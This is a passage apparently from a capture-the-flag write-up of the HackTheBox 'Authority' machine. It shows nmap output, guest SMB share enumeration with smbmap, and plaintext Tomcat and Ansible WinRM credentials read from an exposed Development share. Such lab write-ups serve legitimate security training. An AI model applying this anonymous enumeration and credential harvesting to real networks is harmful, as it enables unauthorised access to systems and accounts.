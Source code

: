 ```
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-17T06:04:13+00:00; +4h00m00s from scanner time.
445/tcp  open  microsoft-ds?
8443/tcp open  ssl/https-alt
```

We can add all the domain names into our `/etc/hosts` file.&#x20;

### SMB Shares --> Ansible Creds

SMB allowed access to a few shares with no credentials:

```
$ smbmap -u 'guest' -p '' -H 10.129.9.12
[+] IP: 10.129.9.12:445 Name: 10.129.9.12                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Department Shares                                       NO ACCESS
        Development                                             READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

There were quite a few items within the `Development` share, such as Ansible files nad stuff like that. Within the `/Automation/Ansible/PWM/templates` folder, we can find Tomcat creds:

```
$ cat tomcat-users.xml.j2 
<?xml version='1.0' encoding='cp1252'?>

<tomcat-users xmlns="http://tomcat.apache.org/xml" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
 version="1.0">

<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
<user username="robot" password="T0mc@tR00t" roles="manager-script"/>

</tomcat-users>
```

Within the `ansible_inventory` file of `PWM`, we can find some credentials for Ansible:

```
$ cat ansible_inventory 
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore
```
